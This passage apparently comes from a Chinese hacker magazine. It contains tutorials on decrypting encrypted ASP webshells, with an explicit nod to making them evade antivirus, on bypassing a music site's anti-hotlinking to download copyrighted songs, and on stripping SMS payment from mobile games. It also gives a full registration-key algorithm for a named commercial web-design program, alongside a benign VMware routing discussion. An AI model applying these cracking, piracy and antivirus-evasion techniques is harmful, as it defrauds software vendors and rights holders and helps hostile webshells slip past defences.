好了，接下来就是运行该 VBS 了。如果直接双击运行，虽然得到了结果，可是这样我们无法复制，如图2所示。所以这里选择在命令行下运行。在命令行下运行有一个开关，可以将输出重定向到文本，这样便于复制解密后的内容，假设上面的脚本名字是ps.vbs，则命令行下运行cscript.exe //nologo ps.vbs>c:\ps.txt。这样解密后的文本就在c:\ps.txt中了，然后把解密后的内容复制到相应的加密处即可。

图2 解密结果

# 通过 ASP 网页解密

由于是 ASP 文件，所以需要有可以执行的环境，比如本地搭建 IIS。下面是 ASP 网页解密代码：

```html
<html>
<%
Dim psStr
psStr=(request("psText"))
//上面是接受 FORM 提交的变量
psStr=ShiSanFun(psStr)
//下面的是解密函数
dim ShiSanNewStr, ShiSanI
Function ShiSanFun(ShiSanObjstr)
ShiSanObjstr = Replace(ShiSanObjstr, "+", "")
For ShiSanI = 1 To Len(ShiSanObjstr)
If Mid(ShiSanObjstr, ShiSanI, 1) <> "+" Then
ShiSanNewStr = Mid(ShiSanObjstr, ShiSanI, 1) & ShiSanNewStr
Else
ShiSanNewStr = vbCrLf & ShiSanNewStr
End If
Next
ShiSanFun = ShiSanNewStr
end function
%>
<form action="jiemi.asp" name="jiemi" method="post">
<!-- 上面的是一个表格，将加密的内容提交到本页面，由上面的 Request 接收 -->
<textarea cols=100 rows=20 name="psText"></textarea>
<input name="submit" type="submit" value="解密">
</form>
<form><textarea cols=100 rows=25><%=psStr%></textarea></form>
<!-- 上面的 FORM 是显示解密后的内容 -->
</html>
```

这种解密方式更直观，将加密的内容输入第一个文本框然后点击解密，解密后的内容就在第二个文本框中出现了。

经过上面2步，一般来说已经解密完全了，这个时候，还存在加密的地方是一大马的密码，二就是后门。关于密码的加密，也同第二步，找到解密函数，然后分析加密的算法；对于后门，一般会用到系统自带的一些函数，比如 ESCAPE、CHR 等，还有就是 URL 编码了。

利用上面的知识，大家可以玩玩除后门，为大马做免杀，呵呵。

> 编辑点评：
马儿免杀现在来说是相当重要的，利用加密就可以达到效果，本文虽说是解密的文章，却也是一篇免杀的好文。

# 一次痛苦的下载音乐的经历

- 从本文您可以学到：
- 1、初步学习 JavaScript
- 2、简单破解防盗链

经过 N 年前的一场音乐版权风波，各大网站对 MP3 版权都看的很紧，不敢随便乱动了，于是百度、搜狗都纷纷撤下了很多原本常见的音乐资源。但是，这直接导致了我们穷小白听到优美音乐的机会大大减少，热门歌曲当然好下，但是生僻的外国歌就十分难找了。无奈之下，只有上网寻找，经过一番艰苦的搜索，终于找到了一个很好的音乐网站www.51wma.com。先检测下库存容量，输入自己很喜欢的一个日本女歌手“Akiko”，搜索结果见http://www.51wma.com/author/8800.html所示，找到一首找了很久的歌“Body And Soul”。嘿嘿，看来还不错，在线听起来很快，很强大的网站。接下来当然是想下载哈，页面上有直接下载到手机的功能，应该是要收费的。不管他，看到试听下方有下载歌曲栏目，点击打开，发现是搜狗的页面，也就是说，只是输入了歌曲名，其实还是到搜狗去搜索。更令我不爽的是，这首歌搜狗没有搜到，只是搜到了些同名的，但不是Akiko的歌曲，相信很多朋友都遇到过这种情况吧。换句话讲，该网站是只支持```在线听的，如果要下载，只好下载到手机，并且收费。

正要放弃，突然想到，既然可以在线试听，歌曲一定放在某个服务器上面，那一定可以下载的。瞬间脑子里浮现出 N 个可以探测视频地址的软件，我想歌曲也应该可以探测出地址吧，但是软件到哪里找呢？怕麻烦，不找了，先看看网页源代码。

```javascript
var musicname="BodyAndSoul"
var musicid="307335"
var nclassid="8800"
var authorname="Akiko"
var wmaurl="/uuauth/7/8800/307335.wma"
var sss=musicname.replace(/\s/g,"");
```

看到没，一个地址闪到眼前，把 `/uuauth/7/8800/307335.wma` 加上网站域名 `www.51wma.com`，放到迅雷里面，没过多久，一首珍贵的歌曲便出现在了我的桌面上。看来管理员还是做得不够好啊，这防范措施也太那个了。

歌曲下载好了，出现在桌面上的也的确是一首歌，但是图标却让我有点奇怪。wma 格式有版权保护，所以可以加上版权图片，现在我下的这首歌图标就是它的版权图片。但是这个图片很难看，如果是这个专辑的封面也就罢了，毕竟 Akiko 还是蛮可爱的，令人气愤的是 `www.6621.com` 网站的 logo，也就是说歌曲实际是在 `www.6621.com` 上面下的？管它从哪里来的，我继续用上面的方法下了 N 首歌，发现 `www.51wma.com` 上面的所有歌好像都是“偷的” `www.6621.com` 上的。`www.6621.com` 这么强？说不定 `www.6621.com` 上面的资源比 `www.51wma.com` 更加丰富呢。二话没说，登上了网站，发现这个网站居然是传说中的天籁村，果然资源十分丰富。但是跟 `www.51wma.com` 一样，是个只能听，不能下载的网站。

看到这，我偷笑了，嘿嘿，小样……随便点开一首歌，故技重施，右键，查看源代码。这个源代码可比一开始那个难找。

```javascript
var url = get_url("103") + "/6/6035/13707/6621_638356.wma? "+AuthCode;
```

把 `6/6035/13707/6621_638356.wma` 加上 `www.6621.com`，放到迅雷下载。有点惊讶，无法下载。于是多试了几个组合，加了几个根路径，还是没用。难道就这么眼巴巴地看着？我不服气啊，继续看代码，这才发现这个地址跟刚才不一样，前面多了一个 `get_url("103") + `。`get_url` 应该是得到歌曲地址的函数吧，而 103 就是这个函数的实参。在源代码中搜索 `get_url`，没有这个函数的定义语句，看来是包含在了 JS 文件里面。再找代码，发现了下面几个可能的 JS 文件：

```html
<script src="/js/fang.js" type="text/javascript"></script>
<script type="text/javascript" src="/Js/AjaxCore.js"></script>
<script src="/player/url/dan.js" type="text/javascript"></script>
```

第一个 JS 内容如下：

```javascript
// 应用前请修改以下 2 个参数
// DomainUrl 变量修改为你的主域域名，比如你的域名是 www.uudog.com，那么你的主域域名就是 uudog.com
// AuthUrl 变量修改为你装有筛选器的站点的域名即可，建议单独建一个站点安装一个筛选器，然后 AuthUrl 填入这个新建站点域名
var DomainUrl = "6621.com";
var AuthUrl = "fangdao.6621.com";

SetCookie("uuauth", "ok", null, "/", DomainUrl, false);

document.write("<script language='javascript' src='http://" + AuthUrl + "/getuuauthcode/'></script>");

function SetCookie(name, value)
{
    var expdate = new Date();
    var argv = SetCookie.arguments;
    var argc = SetCookie.arguments.length;
    var expires = (argc > 2) ? argv[2] : null;
    var path = (argc > 3) ? argv[3] : null;
    var domain = (argc > 4) ? argv[4] : null;
    var secure = (argc > 5) ? argv[5] : false;
    if(expires!=null) expdate.setTime(expdate.getTime() + ( expires * 1000 ));
    document.cookie = name + "=" + escape (value) +((expires == null) ? "" : ("; expires=" + expdate.toGMTString()))+((path == null) ? "" : ("; path=" + path)) +((domain == null) ? "" : ("; domain=" + domain))+((secure == true) ? "; secure" : "");
}
```

这个 JS 文件应该是防止别人盗链它的试听地址的，配合 `var url = get_url("103") + "/6/6035/13707/6621_638356.wma?"+AuthCode;` 最后的 AUTHCODE 检验的。第二个是登录用的，而第三个就是我们找的，代码如下：

```javascript
function get_url(s)
{
    var m = 8;
    var i_num=Math.floor(Math.random()*m+1);
    switch(i_num)
    {
        case 1:
        {
            if (s=='6621')
            {
                surl='http://h.6621.com/1oo1/';
            }
            else if(s=='102')
            {
                surl='http://gg.6621.com/2oo2/';
            }
            else if(s=='103')
            {
                surl='http://555.6621.com/3oo3/';
            }
            else if(s=='104')
            {
                surl='http://7777.6621.com/4oo4/';
            }
            else if(s=='105')
            {
                surl='http://11111.6621.com/5oo5/';
            }
            else
            {
                surl="";
            }
            break;
        }
        case 2:
        {
            if (s=='6621')
            {
                surl='http://h.6621.com/1oo1/';
            }
            else if(s=='102')
            {
                surl='http://gg.6621.com/2oo2/';
            }
            else if(s=='103')
            {
                surl='http://555.6621.com/3oo3/';
            }
            else if(s=='104')
            {
                surl='http://7777.6621.com/4oo4/';
            }
            else if(s=='105')
            {
                surl='http://11111.6621.com/5oo5/';
            }
            else
            {
                surl="";
            }
            break;
        }
    }
    return surl;
}
```

这个 JS 文件正好包含了 `get_url` 的定义，看到这里我想下歌没问题咯，哈哈，管理员只是让我多走了一步而已。

我们现在用上面那个地址来举例看看如何下载。我们看看 103 指向的地址，发现 4 个 case 中的 103 都是指向 `http://555.6621.com/3oo3/`，case 后面的数字其实是随机生成的，但是管理员可能懒吧，也没有在每个 case 中修改 103 指向的地址，所以 case 其实是没用的，都是一样，这倒为我们下载提供了方便。老办法，将 `http://555.6621.com/3oo3/6/6035/13707/6621_638356.wma` 贴入迅雷的新任务中，完成下载后发现下载回来一个主页，也就是说这种方法是错误的。于是又把上面什么 `7777.6621.com`、`aaaa.6621.com` 全试了一遍，不出所料，全部没用。

无奈，继续看代码，都到这一步了，不能放弃。突然灵感一来，嘿嘿，看见 `http://555.6621.com/3oo3/` 这个没有，后面有一斜杠，而这个 `/6/6035/13707/6621_638356.wma` 前面也有一斜杠，管理员没按常规出牌啊，真正的地址是 `http://555.6621.com/3oo3//6/6035/13707/6621_638356.wma`，应该多加一斜杠才对，再用迅雷尝试，下回来的还是一个主页。回想一遍自己一开始的思路，没有错误，可以保证，歌曲绝对不是这个地址，那么是哪里出了问题呢？难道有 Cookies 验证？或许有页面我没有打开吧，试试下面的下载歌曲连接，点击打开页面，在迅雷输入刚才的地址 `http://555.6621.com/3oo3//6/6035/13707/6621_638356.wma`，奇迹出现了，歌曲终于下载下来！真是好艰辛啊，花了很久才下了首歌。

后来想想，其实这次真是笨啊，只要首先清空了 IE 临时文件夹，打开试听页面，等歌曲缓冲完毕，再刷新下 IE 临时文件夹，一首歌曲就会好好的躺在那里的。我想甚至还可以嗅探，利用 WSockExpert 抓包，也可以找到歌曲的地址，但是下载的时候还是要打开那个页面的。

最后我想问个问题，到现在也不明白为什么要打开那个页面才可以下载，真的是 Cookies 验证吗？求教高手原理。

> **编辑点评：**
> 从本文可以看出，防盗链仅仅是一种手段，也是可以破解的，本文作者误打误撞竟然破解了一个简单的防盗链方法，恭喜啊。顺便回答作者最后提出的问题，你遇到的就是 Cookies 验证，可以通过带有读取 Cookies 功能的浏览器来测试。

# Cracker

## 86 的破言破语

8 月该干啥好？当然是奥运啦！宣传了这么久，广告了那么久，终于就盼来了这个月份，奥运会终于开始了。或许有很多人已经早就就在北京，准备直击整个奥运会的全

介绍一个简单傻瓜式的方法，首先必须安装好jre环境，如图5所示。因为下面用到的halo v1.0需要java环境支持，不然无法运行。它的功能挺强大的，支持短信破解、按键修改、游戏汉化等，其中的乐趣自己去发掘吧！

图5 安装jre环境

## 手机游戏短信收费破解教程

第一步，载入java游戏，选择“文件名”-“打开jar文件”，载入“周星星功夫台球”，如图6所示。

图6 打开jar文件

第二步，选择“工具”-“配置”选项，如图7所示。进入“Preference”中，选择“破解”后勾选“对jar进行破解”，然后点击“确定”，如图8所示。

图7 配置选项
图8 勾选对jar进行破解

第三步，最后依次点击“编译”-“打包”-“运行”，如图9所示。顺序不能反，不然可能会不成功。好了，下载破解完成了，太简单了吧。我们到halo v1.0目录里的game目录里找到破解文件，如图10所示。

图9 依次点击相关按钮
图10 找到破解文件

破解是破解了，我们还要看看是不是真正的破解了，不然安装到手机收费了，那……还是一样。测试是每次破解后应该做的，先不要急于放到手机里去。使用前面那个模拟器，选择机型，到收费的地方点击确定，看是否弹出来对话框。哈，这回没弹出来，证明成功了。

图4 点收费弹出对话框

在此说明一下，这方法并不是万能的，这工具只不过自动的将游戏短信收费模块直接修改了，就像注入一样。可能在以后破解的人多了，有些游戏公司也会根据需要做出必要的修改，就像反破解一样，因此我们有必要掌握收费模块的基本原理，才能真正的掌握手机游戏的破解。

此文章仅仅牵涉到手机游戏短信收费的破解，对于手工破解等，会在后续中推出，大家一起交流哦！

【本文介绍的相关程序已收录在本期光盘中】

**编辑点评：**
现在手机的确是越来越时尚了，手机也有操作系统，所以手机也有软件。如果手机上使用软件还要注册怎么办？本文给了大家最好的回答。手机游戏的破解文章是比较少见的，感谢作者为大家带来的文章，让大家对手机游戏的破解有个了解。俗话说：知己知彼，百战百胜。看来，基础是必不可少的。

---

## 百易网页大师注册算法分析

从本文你可以学习到：基础算法入门。

这一次的目标程序是百易网页大师，最新的版本是2008.0510，这是我拿到的版本。它是一个功能强大，简单易用的网页设计软件，拥有全功能的网页代码编辑功能。能编辑html、php、asp、jsp、css、xslt和别的网页格式，支持DHTML和JavaScript脚本，并集合了518个十分精彩的Javascript特效，真正做到了与特效源程序相融合。每一个特效制作窗口均为可视化制作界面，所有特效操作只需要您轻轻点几下鼠标就可以完成，适合各级网页制作人士使用。

看了介绍是不是觉得这个程序很棒呢？是的，我就觉得不错，因为以前制作网页的时候，我也曾试过这一类工具来帮助完成网页设计。但这些并不是我们所关心的，重点是这个程序的注册算法。

首先这是一个易语言的程序。随着易语言的发展，现在越来越多的人接触易语言，也有很多人喜欢使用易语言来编程。因为其简单易懂，编写代码更符合国人的文字习惯，所以现在使用易语言的用户也是非常的多。易语言的注册算法方面，大部分可能会涉及到浮点算法，这次我们是否会遇上呢？

如果你看过我以前写过的文章，那么一定不会陌生我的手法。最基本的东西或许你会觉得厌倦，但是对于一个初学者来说，我还是希望你能够正视一些最基本的东西。比如查壳、程序是否有什么限制等等，因为这些信息能够帮助我们！

首先看看查壳结果吧，如图1所示。

图1 peid扫描结果

可以看到，EP是0040389F。EP虽然是入口点，但不一定是程序的真正入口点，这与OEP是有所区别的。当程序没有经过任何壳压缩或者加密的话，那么这时候EP就是OEP了。0040389F是易语言的特点入口，所以这里一看就知道程序没有加壳，是易语言编写的，这是易语言新版本编写出来的结果。如果是旧版本，入口点就不是这个了。再运行程序看看，如图2所示。

图2 NAG窗口

这是一个NAG窗口，目的就是警告告诉你，程序在使用多少次之后会有限制，但有时候也会叫你注册程序。这不需要作深入研究，了解即可。再来注册一下程序看看，如图3所示。

图3 注册失败提示

“你输入的注册码有误或者为试用版序列”，也就是说，注册提示错误或者失败了。在图3中还可以看到有“系统状态未注册”的字样，我猜想如果正确注册之后应该会显示“已注册”之类的字符。

对于易语言的程序，大家可能有所了解，因为OD载入之后，是搜索不到什么有用的字符串信息的，因为在入口代码的地方可以看作是经过加壳后的情形，但实际上又不是，所以我们需要解压一下。

将程序丢进OD，选择菜单“查看 - 内存”，可以看到如图4所示的代码。

| Address | Size | Owner | Section | Contains |
| --- | --- | --- | --- | --- |
| 00400000 | 00001000 | 百易网页 | | PE header |
| 00401000 | 00006000 | 百易网页 | .text | code |
| 00407000 | 00001000 | 百易网页 | .rdata | imports |
| 00408000 | 00004000 | 百易网页 | .data | data |
| 0040C000 | 00001000 | 百易网页 | .data | |
| 00480000 | 00081000 | 百易网页 | .data | |
| 00501000 | 00028000 | 百易网页 | .rsrc | resources |
| 004C0000 | 0000B000 | 百易网页 | | |

图4 打开内存

在这个新版本中，已经看不到以前的.ecode段了，但是却能看见这个.data，所以我选择在这里下一个断点，这可能是一个会解码的地方。F9运行起来，看到以下代码：

```assembly
10028CDD    8B42 30         mov eax, dword ptr ds:[edx+30]      ; 中断在这里
10028CE0    83E0 01         and eax, 1
10028CE3    85C0            test eax, eax
10028CE5    75 10           jnz short krnln.10028CF7
10028CE7    8B4D 08         mov ecx, dword ptr ss:[ebp+8]
10028CEA    51              push ecx
10028CEB    8B4D F8         mov ecx, dword ptr ss:[ebp-8]
10028CEE    E8 0DFC0200     call krnln.10058900
10028CF3    FFE0            jmp eax                             ; /// 这里会跳向程序的代码处
10028CF5    EB 0E           jmp short krnln.10028D05
```

经过10028CF3处后，会来到以下代码处：

```assembly
0048B0B5    FC              cld                                 ; 来到这里
0048B0B6    DBE3            finit
0048B0B8    E8 F7FFFFFF     call 百易网页.0048B0B4
```

这里才是程序的真正代码，在这里可以使用OD的字符串插件了，使用后结果如图5所示。

| Address | Instruction | String |
| --- | --- | --- |
| 00489925 | push 百易网页.0040D7CC | \system\yfyzc.edb |
| 00489AE8 | push 百易网页.0040D7DE | 注册成功 |
| 00489B00 | push 百易网页.0040D7E7 | 注册成功，请重新启动本程序！ |
| 00489B51 | push 百易网页.0040D804 | 你输入的注册码有误或者为试用版序列 |
| 00489BA0 | push 百易网页.0040D827 | SELECT * FROM ..WHERE ..IN |

图5 字符串插件

看到图5我相信你一定会很高兴，因为这里能够看到我们所需要的信息。嗯，去吧！在“注册成功”的地方双击即可去到代码处（一些无关紧要的代码我就略过，有兴趣的可以自己看看）：

```assembly
00489983    E8 92A9FFFF     call 百易网页.0048431A      ; 算法 call
......
004899B2    83F8 00         cmp eax, 0
004899B5    B8 00000000     mov eax, 0
004899BA    0F94C0          sete al                     ; 标志位
004899BD    8945 F8         mov dword ptr ss:[ebp-8], eax
......
004899D0    837D F8 00      cmp dword ptr ss:[ebp-8], 0
004899D4    /0F84 FD000000  je 百易网页.00489AD7        ; 爆
```

经过一番的分析观察之后，我发现00489983处的call是一个算法call，所以这里是需要进去看看的（算法部分完整代码可以从附件代码里面获得）：

```assembly
0048343F    68 AFF40405     push 504F4AF                ; 将 504F4AF 压栈
00483454    DD45 F8         fld qword ptr ss:[ebp-8]    ; 机器码
00483457    E8 B2D5FFFF     call 百易网页.0048190E
0048345C    68 01030080     push 80000301
00483461    6A 00           push 0
00483463    50              push eax
00483464    68 02000000     push 2
00483469    BB CC000000     mov ebx, 0CC
0048346E    E8 9C6D0000     call 百易网页.0048B10F      ; 算法 1
00483473    83C4 1C         add esp, 1C

00483488    E8 826D0000     call 百易网页.0048B10F      ; 转为十进制
0048348D    83C4 10         add esp, 10
00483490    8945 F0         mov dword ptr ss:[ebp-10], eax ; eax 保存结果

004843C9    E8 416D0000     call 百易网页.0048B10F      ; 取 3-6 位
004843CE    83C4 28         add esp, 28
004843D1    8945 EC         mov dword ptr ss:[ebp-14], eax ; eax 保存结果
004843D4    8B5D F0         mov ebx, dword ptr ss:[ebp-10]

0048442B    6A 00           push 0
0048442D    68 D62B0605     push 5062BD6                ; 将 5062BD6 压栈
00484432    DD45 F8         fld qword ptr ss:[ebp-8]    ; 机器码
00484435    E8 D4D4FFFF     call 百易网页.0048190E
0048443E    E8 9C6D0000     call 百易网页.0048B10F      ; 算法 2
00484446    E8 A46D0000     call 百易网页.0048B10F      ; 转为十进制
0048444B    83C4 10         add esp, 10

004844A7    E8 636C0000     call 百易网页.0048B10F      ; 取 4-7 位
004844AC    83C4 28         add esp, 28
004844AF    8945 EC         mov dword ptr ss:[ebp-14], eax ; eax 保存结果
004844B2    8B5D F0         mov ebx, dword ptr ss:[ebp-10]

00484509    6A 00           push 0
0048450B    68 9C080605     push 506089C                ; 将 506089C 压栈
00484510    DD45 F8         fld qword ptr ss:[ebp-8]    ; 机器码
00484513    E8 F6D3FFFF     call 百易网页.0048190E
00484518    68 01030080     push 80000301               ; 算法 3

00484544    E8 C66B0000     call 百易网页.0048B10F      ; 转为十进制
00484549    83C4 10         add esp, 10

00484580    BB 3C010000     mov ebx, 13C
00484585    E8 856B0000     call 百易网页.0048B10F      ; 取 5-8 位
0048458A    83C4 28         add esp, 28
0048458D    8945 EC         mov dword ptr ss:[ebp-14], eax ; eax 保存结果

004845E7    6A 00           push 0
004845E9    68 ABF10405     push 504F1AB                ; 将 504F1AB 压栈
004845EE    DD45 F8         fld qword ptr ss:[ebp-8]    ; 机器码
004845F1    E8 18D3FFFF     call 百易网页.0048190E      ; 算法 4
004845F6    68 01030080     push 80000301
00484622    E8 E86A0000     call 百易网页.0048B10F      ; 转为十进制
00484627    83C4 10         add esp, 10
0048465E    BB 3C010000     mov ebx, 13C
00484663    E8 A76A0000     call 百易网页.0048B10F      ; 取 6-9 位
00484668    83C4 28         add esp, 28
0048466B    8945 EC         mov dword ptr ss:[ebp-14], eax ; eax 保存结果
0048466E    8B5D F0         mov ebx, dword ptr ss:[ebp-10]
```

算法1看看就清楚了，因为都是调用同一个call，所以这里我只跟进其中一处作为讲解：

```assembly
10059B83    /74 07          je short krnln.10059B8C
10059B85    |48             dec eax
10059B86    |75 0A          jnz short krnln.10059B92
10059B88    |330A           xor ecx,dword ptr ds:[edx] ; 固定值和机器码的异或运算
10059B8A    |EB 06          jmp short krnln.10059B92
10059B8C    \0B0A           or ecx,dword ptr ds:[edx]


```

这里就是固定值和机器码的异或运算了，发现用户名好像没参与运算。到这里整个注册流程是非常明显的了，我使用获得的注册码来注册，注册后界面如图6所示。

图6 注册成功界面

“系统状态”已经显示为“已注册”，和当初猜想的差不多。好了，又是一个体力活，算法基本都如此，简单的还行，如果复杂的，可能会累个半死了！我相信还有一部分朋友是喜欢玩爆破，也不喜欢玩算法的！

这段是很好理解的，首先将固定值压栈，接着是机器码的传送，两者进行了一个异或运算，可以得到一个值，再取这个值的其中四位，即为注册码了。我写个算式，你能更容易看懂：

- 第一框：机器码 xor 504F4AF -> 取结果的 3-6 位
- 第二框：机器码 xor 5062BD6 -> 取结果的 4-7 位
- 第三框：机器码 xor 506089C -> 取结果的 5-8 位
- 第四框：机器码 xor 504F1AB -> 取结果的 6-9 位

我想这样你能够看得更明白些。

【本文介绍的相关程序已收录在本期光盘中】

**编辑点评：**
本文算法比较简单，适合入门，是一篇非常基础的算法文章，希望对想研究算法入门的朋友有些帮助。

---

# 专题补遗

**专题前语：**
大家还记得0803那期的专题文章吗？呵呵，这回是对那篇文章中提到的几点知识的总结和认识，很精彩的，可以学到不少东西！

### 再谈《我的私人Lab：网络实验室搭建DIY》
图/赵岩

- 从本文你可以学到：
1. 网络互联的相关知识
2. 如何排除网络故障
3. 使用 VMware 中的误区

由于工作比较忙，拿到《黑客手册》第3期样刊也没怎么看，直到上月才细细的品味这份大餐。在此感谢土豆GG，因为这期样刊邮丢了，和他老人家一说，不久又给我邮来一份，再次感谢。

这几期黑手频繁暴出VMware的高级用法，并且都是T级的高手写的，本人心里也比较痒痒。在看到这些T级别高手写的文章时，我才发现我以前用的VMware功能只不过是冰山一角，让我这种小菜茅塞顿开，本人也在这些文章中学到了非常多的知识。但对于第三期《我的私人Lab：网络实验室搭建DIY》一文有一点不同的看法，首先本人对此文章作者的技术抱有十二分的尊敬，并没有诋毁之意，也没有对该文章的补充之意，只是通过本文对技术上的问题进行讨论及研究。

偶在翻阅《我的私人Lab：网络实验室搭建DIY》一文（以下简称《DIY》）时有三点疑问：

1. 文中提到Host-only网络不能和其它网络通信，虚拟机上网的这种网络是不行的！？
2. 文中提到如果机器有两块网卡，双网关时，如果没有明确的路由表，数据报将会从第一块网卡发出去？
3. 在配置Route时，将网络配置成：VMnet 1 IP：192.168.48.1/24；网关：192.168.48.1；DNS为空；VMnet 2 IP：192.168.229.1/24；网关：192.168.229.1；DNS为空，如此配置网络可以通信？

我们再来看看《DIY》一文中的实验网络拓扑结构，如图1所示。

可以看到，这是一个VMware的Host-only型网络。一般来说，如果想让网络之间通信要先怎么办啊？小菜们一定说是拉网线啦！对！就是拉网线。安装VMware后，它就将“网线”已经给我们布好了，默认会出现两个网络VMware1、VMware8，加上我们自己主机的真实网络和连接的Internet，那片面的讲，我们的实验网络就有四个节点。

VMware软件中正常新建一个网络(VMwareN)，代表接入一台交换机或HUB，每增加一台虚拟机，就相当于把该虚拟机的网卡接入到这台交换机上。卡插在相应的网络交换机上。

## 任务一：解决VMware中的Host-only网络和其它网络通信

《DIY》一文中说，Host-only网络不可以和其它网络通信，我们先看看它是如何不能和其它网络通信的。我们知道，一台计算机想和其它网络通信最少有两点需要注意：第一是本机网络配置要正确；第二是网络节点（路由器）要提供路由功能。

我们先拿Route来测试，它的基本信息如图2所示。你也可以参照《黑客手册》2008年03期，这是和《DIY》一文中一样的，本文参照图1的拓扑，这时网络不能上Internet，也不能和其它网络通信。

按原作者的说法，原因有两种：第一是VMware中的Host-only网络不可以和其它网络通信；第二是该机两块网卡的数据包从第一块网卡（192.168.229.1）出去了。OK，我们先来看看图3所示的信息。

结合图2，在图3中的Default Gateway: 192.168.48.1正是我门的第二块网卡，按着数据包的“出向原理”也正应该从该地址出去，因为192.168.48.1连接“本机”；“本机”连接Internet，所以出路没问题，如果有点晕赶快回头看图1。

那有的小菜说了，没添加DNS。其实我就是把DNS添加上去也不通，篇幅有限，我就不抓图了。

**小提示：** 为什么让大家看“Default Gateway”呢？它的作用是当本机路由表没有去往目的地址的明确条目，则将把数据发到该地址。所以，如果有正确的Default Gateway，那么一定可以把数据发出去。

那么怎么就不通呢？如果你有网络的基本常识，你就能明白，我们的网关要配置成下一跳的IP地址，而不是本机网卡的地址。下一跳地址是192.168.48.10（参照图1）。添加DNS地址后，把192.168.48.0/24的网关设成192.168.48.10，就是我们真实机器的VMnet1的地址，也就是在图1中的Hacker（本机）地址。我们ping www.sina.com，如图4所示。

看到了吧，Host-only网络不是不可以通信，只是作者有可能遗忘了DNS地址，疏忽了网关地址的正确设置。当然，其实在这里应该不足以让网络通信，只是相关工作我提前做了，还需要其它网络的路由转发，这些你将在下面看到。

# 任务二：计算机如果有两块网卡，数据不一定从第一块网卡出去

该文作者提到，如果机器有两张网卡，而没有明确的路由表的话，数据将会从第一个连接出去。其实我个人认为这是不对的，正因如此本人也作了大量的实验。

当一台主机要去某个地址，而该主机没有去往该地址的路由表时该怎么办？它会走“默认网关”，就是图3中的“Default Gateway”。一台主机多网卡如何“争夺”默认网关呢？如果按着“本地连接1”、“本地连接2”或PCI插槽的先后次序来算就有点儿戏了。我们看看图3，明明采用的是“本地连接2”为默认网关的，但是每个厂商的网卡内存地址、优先级控制方式是不同的……我们再来看看图5所示信息，当改变配置或重新启动，Default Gateway都会变的，所以你可千万不要用插拔网卡的形式来调整网关。

另外，我在此也强烈不建议你给路由（网关）配置默认网关（Default Gateway），不要把网关和默认路由搅混了。如果非要在双网卡计算机中配置两个网关，我也建议你用“跃点数”来影响数据的走向。打开相应的网卡“Internet协议（TCP/IP）属性”对话框，选中“网关”点击“编辑”，改变跃点数，跃点数值越小优先级越高。

以上讨论的是类Windows系统的网络工作方式，同样在类Unix系统测试成功，但不包括专业的路由器及防火墙，它们在处理数据包的方式上是不同的。

# 任务三：网络互联，沟通无限

我们让如图6所示的网络拓扑结构中的主机都能相互通信，目的就是让大家知道如何让Host-only网络和其它网络通信，其实真实网络原理都是相同的。

图6是图1的扩展，其中包括VMware的网络、本人所处的网络、Internet网络，VMnet1及VMnet2的网络参数不变。本机网络配置如下：

- 本机对应着图6中的Hacker（本机）。VMnet8 IP是192.168.10.254/24；
- VMnet1 IP是192.168.48.10/24；
- 物理网卡IP Address：192.168.1.2/24；
- VMware8（Linux）是一台Linux系统配置（带路由功能）的主机：eth0 IP：192.168.10.10/24；eth1 IP：172.16.31.1/24；
- NetBSD Server是一台NetBSD系统配置的文件服务器：pcn0 IP：172.16.31.254/24 Gateway：172.16.31.1。

**拓扑结构说明：**

- 图6区域3、区域4是VMware8网络及VMware3网络，其中最末端是一个NetBSD系统的文件服务器，用它来测试网络通信。
- 图6的真实网关是一台Cisco 25系列的路由器，它连接着Internet。

注意：你在做实验的时候一定要将Route的两块网卡的网关去掉，否则以下的实验你有可能网络不通。

我们的目的是让网络的两个末端Server可以访问NetBSD Server的文件服务器FTP。我们看，如果Server要访问NetBSD Server，要经过三台“路由器”，在图6中标示Route（路由器）、Hacker（本机）、VMware8（Linux），其任何节点不通都会造成网络不通，所以要依次开启节点的路由功能。

启用Route（路由器）路由功能可以在“路由和远程访问”中开启，注意一下在添加静态路由时，网关地址为下一跳路由的地址，也就是“Hacker（本机）”和VMnet1网络连接的地址192.168.48.10，如图7所示。这时候通过Route（路由器）会将VMware1这个末端网络的客户机去往其它地址的数据报转发出去。

当Router（路由器）将数据报发到Hacker（主机）后，Hacker（主机）首先打开IP的封装查看IP头。如果是发给自己的就交上层处理，如果发现目的地址不是自己，这时它需要转发（开启路由功能）。如果主机系统是Windows 2000或Windows 2003，用上面的方法即可，但是如果是Windows XP，方法就有所不同。先在“本地连接属性对话框”中选择“高级”，勾选中“允许其它网络使用本连接共享”后选择任意一块VMware的网卡，即开启XP的路由功能，如图8所示。

这个时候，VM1和VM8的网络是可以通信的，但是如果涉及到其它网络，比如VMware 8网络中还连接VMware n，数据是传递不到的，因为它不知道VMware n应该从哪个接口转发出去。这时我们还需要路由表，如何用命令行方式配置路由可以参照2008年03期的《黑客手册》。

同理，Hacker（主机）把VMware1网包发到VMware8网络中，由VMware8（Linux）处理。为什么由它处理呢？因为Hacker把去往这个网络的路由指向它了，这是一台双网卡Linux主机。

Linux主机开路由功能比较简单，运行 `echo "1" > /proc/sys/net/ipv4/ip_forward` 命令后即开启路由功能，然后给它一个默认路由 `echo "0.0.0.0/0 via 192.168.10.254 dev eth0" > /etc/sysconfig/network-scripts/route-eth0`，而192.168.10.254是连接它网络接口Hacker（主机）的IP地址，即可以把Server主机的数据报传输给NetBSD Server，如图9所示。

当然NetBSD也最少需要一条静态路由，这时用Server主机访问NetBSD Server没问题，用ping后TTL值为252说明该数据报已经经过三台路由器了，NetBSD系统的TTL值默认为255。为了说明问题，我用反方向ping测试，如图10所示。

**小结：** 本文讨论了很多朋友用VMware作实验中的一些误区，同时也涉及到了不同平台的网络配置，其实不同网络平台的底层都是一样的，只不过是操作有点不同，因为它们设计的接口都符合标准。细心的读者可能看出来，本文的Windows系统是采用的Windows 2000 Server，其实在实践中，Windows 2000和Windows 2003都是一样的，我6年前的Celeron 1.7可以同时跑5台虚拟机，如果用2003真是比较困难。

本想给出真实网络Cisco IOS配合真实系统加VMware互通的描述，由于篇幅关系不能直接给出了，如果大家对本文有不同的看法或有什么问题，你可以到非安全官方论坛讨论。

**编辑点评：**
对以往文章中的疑惑做出大量的实验来证明文章中的不足，作者的精神是值得肯定的，而且也希望大家同样拿起手中的笔写下自己看过非安全杂志后的感悟和疑问，当然，你可要把文章读仔细了。

# Q&A

**Q：如何让影子系统 2008 开机没有那三个选项：1、正常启动 Windows；2、启动单一影子系统；3、启动完全影子系统。我记得以前用的那个版本的影子系统，里面有选项：开机前不显示，可现在好像没找到……**

